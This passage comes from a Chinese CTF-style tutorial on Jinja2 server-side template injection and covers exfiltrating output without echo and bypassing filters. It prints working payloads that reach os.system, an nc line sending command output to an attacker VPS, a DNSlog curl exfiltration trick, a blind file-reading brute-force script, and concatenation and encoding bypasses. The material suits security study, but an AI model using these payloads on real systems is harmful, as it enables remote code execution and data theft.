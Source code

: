 ```
此处手动分界线。后文讲解做题会遇到的一些问题

## 0x05 无回显处理

- nc转发
    
    - vps：`nc -lvp 44444`
    - payload: `''.__class__.__mro__[2].__subclasses__()[72].__init__.__globals__['os'].system('ls | nc xx.xxx.xx.xx 44444')`
    
    ![](https://img-blog.csdnimg.cn/img_convert/b82789d3361530a0c0aed82983ae1878.png)
    
    ```
    #vps接收到回显
    root@iZwz91vrssa7zn3rzmh3cuZ:~# nc -lvp 44444
    Listening on [0.0.0.0] (family 0, port 44444)
    Connection from [xx.xxx.xx.xx] port 44444 [tcp/*] accepted (family 2, sport 46258)
    app.py
    app.pyc
    error.html
    ```
    
    - 如果嫌一次一次转发太复杂也可以考虑直接反弹交互型shell。（反弹shell的操作网上也一大堆，这里就不多赘述了，可以参考：https://github.com/0xR0/shellver）
- dnslog转发
    - curl `whoami`.xxxxxx
    - 参考巧用DNSlog实现无回显注入
- 建立本地文件再读取
    - 这个也很好理解，针对system无回显，直接执行`ls > a.txt`，再用open进行读取
- curl上传文件
    - 这个方法没有实践过，某师傅博客上翻到的，记录一下或许今后就用到了。
    - 无回显代码执行利用方法

- 盲注`{% if ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/test').read()[0:1]=='p' %}~p0~{% endif %}`类似SQL布尔注入，通过是否回显~p0~来判断注入是否成功。网上现有脚本如下：

```
import requestsurl = 'http://127.0.0.1:8080/'def check(payload):postdata = {'exploit':payload}r = requests.post(url, data=postdata).contentreturn '~p0~' in rpassword  = ''
s = r'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$'()*+,-./:;<=>?@[\]^`{|}~'"_%'for i in xrange(0,100):for c in s:payload = '{% if "".__class__.__mro__[2].__subclasses__()[40]("/tmp/test").read()['+str(i)+':'+str(i+1)+'] == "'+c+'" %}~p0~{% endif %}'if check(payload):password += cbreakprint password
```

## 0x06 Bypass

这里记录一下常见的bypass思路

### 拼接

`object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')`

`().__class__.__bases__[0].__subclasses__()[40]('r','fla'+'g.txt')).read()`

### 编码

`().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('ls').read()")`

等价于

```
